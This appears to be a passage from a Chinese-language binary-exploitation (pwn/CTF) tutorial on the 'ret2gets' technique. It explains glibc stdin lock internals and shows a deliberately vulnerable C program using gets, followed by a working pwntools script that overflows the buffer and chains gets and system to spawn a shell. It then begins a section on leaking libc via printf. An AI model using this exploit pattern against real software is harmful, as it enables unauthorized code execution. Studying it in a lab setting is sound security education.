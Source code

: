 其中的重点：

+ `owner`很多时候会储存着 TLS 结构体地址，这个地址与libc偏移是固定的，但是当当前线程完全解锁时会被清空
+ `cnt`在释放时会减一，此处存在整数溢出的漏洞

## ret2system
例子：

```c
#include <stdio.h>
#include <stdlib.h>
int main() {
    puts("ret2gets&ret2system");
    char buffer[0x20];  
    gets(buffer);      
    return 0;
}
void backdoor() {
    system("echo hi"); 
}
```

有`system`，也有`gets`，但是没有`/bin/sh\x00`字段，同时也没有有关`rdi`的`gadget`可用

在`ret2gets`的攻击中，`/bin/sh\x00`我们是可以直接注入，并控制rdi指向的

利用方式也非常简单，`gets`执行后，不去动`rdi`的情况下，再次`call gets`，此时就会向`_IO_stdfile_0_lock`中读入内容，这时候传入 binsh 就可以让 gets 结束之后 rdi 指向 binsh

但是要注意的是，在 gets 结束的时候会将`_IO_stdfile_0_lock`里面的`cnt`成员减一，所以在传 binsh 的时候要把第五个字节提前加上 1

```c
from pwn import *
context(arch='amd64',os='linux')
io= process("./gets")
gdb.attach(io)
system=0x401040
gets=0x401050      
pause()
io.recvuntil(b'ret2gets&ret2system\n')

payload1=b'a'*(0x28)+p64(gets)+p64(system)
io.sendline(payload1)

payload2=b'/bin'+p8(u8(b"/")+1)+b'sh'
io.sendline(payload2)
io.interactive()
```

## ret2libc
在这里利用 ret2gets 泄露 libc

### printf 泄露
跟 ret2system 一样，把 binsh 换成格式化字符串就行了，注意第五个字节就行
